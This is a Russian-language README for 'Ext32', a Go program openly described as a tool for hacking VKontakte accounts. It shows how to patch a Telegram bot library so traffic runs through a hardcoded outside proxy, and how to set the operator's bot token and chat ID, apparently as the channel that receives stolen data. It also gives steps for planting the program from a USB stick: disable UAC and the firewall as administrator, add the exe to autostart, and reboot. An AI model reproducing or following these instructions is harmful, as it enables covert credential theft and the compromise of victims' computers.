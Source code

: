 # Ext32
Ext32 - программа для взлома ВКонтакте. 

Программа написана на языке программирования Go, и использует библиотеку [tgbotapi](http://github.com/go-telegram-bot-api/telegram-bot-api).
Поэтому перед сборкой выполните 
```
go get github.com/go-telegram-bot-api/telegram-bot-api
```
<h1>Внимание!</h1>
Так как Telegram заблокирован в России, для работы программы вам необходимо внести некоторые изменения в код.

Скачав библиотеку [tgbotapi](http://github.com/go-telegram-bot-api/telegram-bot-api), откройте файл bot.go и измените следующий участок кода:
```
func NewBotAPIWithClient(token string, client *http.Client) (*BotAPI, error) {
	bot := &BotAPI{
		Token:  token,
		Client: client,
		Buffer: 100,
	}

	self, err := bot.GetMe()
	if err != nil {
		return nil, err
	}

	bot.Self = self

	return bot, nil
}
```
на
```
func NewBotAPIWithClient(token string, client *http.Client) (*BotAPI, error) {
	bot := &BotAPI{
		Token:  token,
		Client: client,
		Buffer: 100,
	}

	proxyUrl, _ := url.Parse("http://kvmde58-13429.fornex.org:8008")

	bot.Client = &http.Client{
		Transport: &http.Transport{
			Proxy: http.ProxyURL(proxyUrl),
		},
	}

	self, err := bot.GetMe()
	if err != nil {
		return nil, err
	}

	bot.Self = self

	return bot, nil
}
```

<h1>Инструкция к сборке</h1>

* Откройте файл <b>Ext32.go</b> и в следующем блоке кода укажите собственнные данные:

```
const (
	botToken   string = "YOUR_BOT_TOKEN"
	userChatId int64  = YOUR_CHAT_ID_FROM_TELEGRAM
)
```
* Вставьте флешку
* Запустите от имени администратора файл <b>Отключить UAC.bat</b>
* Запустите от имени администратора файл <b>Отключить фаервол.bat</b>
* Запуститие файл Copy.bat, который скопирует exe-шник в Автозагрузку
* Если возможно, перезагрузите компьютер - программа начнет работать лишь после первой перезагрузки!
